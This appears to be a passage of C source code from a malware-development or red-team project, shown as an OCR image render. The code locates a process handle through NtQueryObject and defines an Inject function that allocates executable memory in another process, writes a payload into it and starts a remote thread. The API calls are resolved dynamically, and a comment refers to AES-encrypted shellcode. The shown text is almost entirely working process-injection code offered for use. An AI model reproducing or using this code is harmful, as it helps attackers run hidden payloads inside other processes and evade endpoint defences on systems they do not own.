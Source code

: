 ```c
            if (pNtQueryObject( (HANDLE) handle.HandleValue,
                            ObjectNameInformation,
                            objectNameInfo,
                            returnLength,
                            NULL ) != STATUS_SUCCESS) {
                free(objectTypeInfo);
                free(objectNameInfo);
                continue;
            }
        }

        // check if we've got a process object
        objectName = *(PUNICODE_STRING) objectNameInfo;
        UNICODE_STRING pProcess;

        pRtlInitUnicodeString(&pProcess, L"Process");
        if (pRtlEqualUnicodeString(&objectTypeInfo->TypeName, &pProcess, TRUE)) {
            printf("[+] Found process handle (%x)\n", handle.HandleValue);
            hProc = (HANDLE) handle.HandleValue;
            free(objectTypeInfo);
            free(objectNameInfo);
            break;
        }
        else
            continue;

        free(objectTypeInfo);
        free(objectNameInfo);
    }

    return hProc;
} 

int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {

    LPVOID pRemoteCode = NULL;
    HANDLE hThread = NULL;
    BOOL bStatus = FALSE;

    pVirtualAllocEx = GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx");
    pWriteProcessMemory = GetProcAddress(GetModuleHandle("kernel32.dll"), "WriteProcessMemory");
    pRtlCreateUserThread = GetProcAddress(GetModuleHandle("ntdll.dll"), "RtlCreateUserThread");

    pRemoteCode = pVirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    pWriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);

    bStatus = (BOOL) pRtlCreateUserThread(hProc, NULL, 0, 0, 0, 0, pRemoteCode, NULL, &hThread, NULL);
    if (bStatus != FALSE) {
            WaitForSingleObject(hThread, -1);
            CloseHandle(hThread);
            return 0;
    }
    else
        return -1;
}

int main(int argc, char **argv) {

    int pid = 0;
    HANDLE hProc = NULL;

    // AES encrypted shellcode spawning notepad.exe (ExitThread)
```